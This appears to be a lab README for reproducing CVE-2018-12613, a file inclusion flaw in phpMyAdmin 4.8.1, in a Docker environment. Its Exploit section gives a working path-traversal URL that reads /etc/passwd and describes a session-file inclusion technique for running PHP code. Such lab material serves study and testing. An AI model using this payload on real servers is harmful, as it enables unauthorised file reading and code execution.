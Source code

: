 # phpmyadmin 4.8.1 Remote File Inclusion Vulnerability (CVE-2018-12613)

PhpMyAdmin is a free software tool written in PHP, intended to handle the administration of MySQL over the Web. The vulnerability is in the `index.php`, causing  files iclusion vulnerabilitiy.

Reference links:

- https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog
- https://www.phpmyadmin.net/security/PMASA-2018-4/

## Setup

Run the following command to start phpmyadmin 4.8.1:

```
docker compose up -d
```

After the environment starts, visit `http://your-ip:8080`. The phpmyadmin is "config" mode, so we can login directly.

## Exploit

Visit `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`, the result indicates that the file inclusion vulnerability exist:

![](1.png)

We can execute `SELECT '<?=phpinfo()?>';`, then check your sessionid (the value of phpMyAdmin in the cookie), and then include the session file:

![](2.png)
